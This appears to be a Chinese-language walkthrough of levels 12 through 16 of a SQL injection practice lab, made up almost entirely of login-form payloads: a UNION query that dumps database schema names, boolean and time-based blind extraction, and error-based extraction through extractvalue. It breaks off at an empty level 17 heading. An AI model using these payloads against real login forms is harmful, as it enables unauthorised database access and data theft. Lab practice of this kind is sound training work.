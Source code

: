 - 第十二关 

```
uname=admin
&passwd=-admin") union select 1,(select group_concat(schema_name) from information_schema.schemata) #
&submit=Submit
```
![](https://ae01.alicdn.com/kf/H76a3d8e0f5f7483783d75d3938a4868a9.jpg)


- 第十三关

```
uname=admin') and ascii(substr((database()),1,1))=115 #
&passwd=admin
&submit=Submit
```

![](https://ae01.alicdn.com/kf/H7cf7e416cd50414da0bd4d927ec2598e3.jpg)


- 第十四关

```
uname=admin" and ascii(substr((database()),1,1))=115 #
&passwd=admin
&submit=Submit

uname=admin" and extractvalue(1,concat('~',user(),'~')) #
&passwd=admin 
&submit=Submit
```

![](https://ae01.alicdn.com/kf/H138b63b56719481f8e6ecfdb7902bedfj.jpg)

- 第十五关

```
uname=admin' and If(ascii(substr(database(),1,1))=115,sleep(5),1) # 
&passwd=admin
&submit=Submit
```

![](https://ae01.alicdn.com/kf/H057e3ebcc50c4386aaa68898a933fa0eT.jpg)

- 第十六关

```
uname=admin") and If(ascii(substr(database(),1,1))=115,sleep(5),1) #
&passwd=admin
&submit=Submit
```
![](https://ae01.alicdn.com/kf/H129bf1d2fe4246f68de6962c995e294dY.jpg)

- 第十七关

